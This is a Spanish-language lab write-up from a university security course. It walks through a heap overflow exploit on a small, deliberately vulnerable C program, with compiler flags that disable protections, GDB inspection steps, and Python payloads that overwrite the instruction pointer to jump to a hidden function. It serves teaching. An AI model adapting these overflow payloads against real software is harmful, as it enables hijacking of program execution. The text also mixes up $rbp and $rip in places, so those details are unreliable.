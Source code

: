 # MUIC - DPS - Laboratorio 5 - Heap Overflow Example

En esta practica se presenta un pequeño y sencillo programa con el que lograr un exploit basado en Heap Overflow. 

Este exploit basado en malloc para Heap difiere del que podemos realizar para vulnerar la parte Stack de la pila. El Heap de un programa suele ser controlado por las librerías de C, encontrando como principales funciones malloc() y free(). El Heap está dividido en grupos de bloques libres de mismo tamaño, y en cada grupo los bloques están organizados mediante  listas doblemente unidas/ligadas. En el Heap, por temas de eficiencia, los punteros fd y bd (forward/backward) que mantienen las listas dobles ligadas son almacenados en el incio de cada bloque libre.

## Paso 1
Compilamos y corremos el programa:
```
gcc heapOverflow.c -o heapOverflow.o -w -g -no-pie -z execstack
./heapOverflow.o Hola
./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX    #(+64 characters)
```
![Step1-Commands](imgs/step1_heap.png "Run commands")

## Paso 2
Mediante el uso del debugger GDB, observamos el funcionamiento de nuestro programa:
```
gdb ./heapOverflow.o    #Corremos GDB
(gdb) list 47,60        #Listamos el código de las líneas 47 a 60
(gdb) b 59              #Ponemos un breakpoint en la línea 59
```
![Step2-Commands](imgs/step2_gdb_list.png "GDB list")

```
(gdb) run XXXX
(gdb) info proc map
```
![Step2-Commands](imgs/step2_gdb_run.png "GDB run")

Ahora, intentamos ver el estado del Heap:
```
(gdb) x/480x 0x405000   #0x405000 es la dirección base del Heap en mi caso
                        #x/480x es para ver 480 bytes en hexadecimal, no pude con vemos observar el XXXX en el Heap
``` 
![Step2-Commands](imgs/step2_gdb_XXXX.png "GDB XXXX")

XXXX -> 0x58585858 -> 0x4052a0 dirección en memoria

![Step2-Commands](imgs/step2_gdb_disas.png "GDB disassembly")

Observamos $rbp: 0x0040116c -> 0x4052f0 dirección en memoria

## Paso 3
Tratamos de analizar el comportamiento del sistema cuando hacemos uso del exploit de la localización en memoria. Para ello creamos un simple programa en python:
```python
#!/usr/bin/python
print("X"*90)
```

Procedemos a dar permisos de ejecución y corremos el programa en C pasandole como argumento el script creado:
```
chmod a+x python1.py
./heapOverflow.o $(./python1py)
```

![Step3-Commands](imgs/step3_python.png "Python script")

## Paso 4
Comprobamos el estado del registro $rip (instruction pointer). Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
```python
#!/usr/bin/python
print("X"*70 + "YAYBYCYDYEYFYG")
```
Procedemos a dar permisos de ejecución como anteriormente hicimos y debugeamos el programa:
```
gdb -q ./heapOverflow.o     #-q para que no muestre el banner de bienvenida
(gdb) run $(./python2.py)   #Corremos el programa con el exploit
(gdb) info registers        #Mostramos los registros
(gdb) q                     #Salimos del debugger
(gdb) y                     #Para confirmar la salida de gdb
```
Observamos el valor de $rip: GYFY -> 0x47594659

![Step4-Commands](imgs/step4_gdb_python2.png "GDB registers")

No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. Por eso es mejor realizar lo siguiente:

```python
#!/usr/bin/python
print("X"*80 + "CDEF")
```

Procedemos como anteriormente y observamos el valor de $rip: CDEF -> 0x46454443

![Step4-Commands](imgs/step4_gdb_python3.png "GDB registers")

Disassembling de la función f_entrar():

![Step4-Commands](imgs/step4_gdb_dissas_2.png "GDB disassembly")

## Paso 5
De la foto anterior, podemos observamos que el registro $rbp (base pointer) apunta a la dirección 0x00401156. Por lo tanto, podemos realizar un exploit que nos permita modificar el valor de $rbp y así poder controlar el flujo de ejecución del programa. Para ello, creamos un nuevo exploit:
```python
#!/usr/bin/python
print("X"*80 + "\x56\x11\x40\x00")
```

Y lo ejecutamos:
```
./heapOverflow.o $(./python4.py)
```

Finalmente obtenemos lo siguiente:

![Step5-Commands](imgs/step5_final.png "Final result")

Hemos conseguido así acceder a la función f_entrar() accediendo desde su posición en memoria.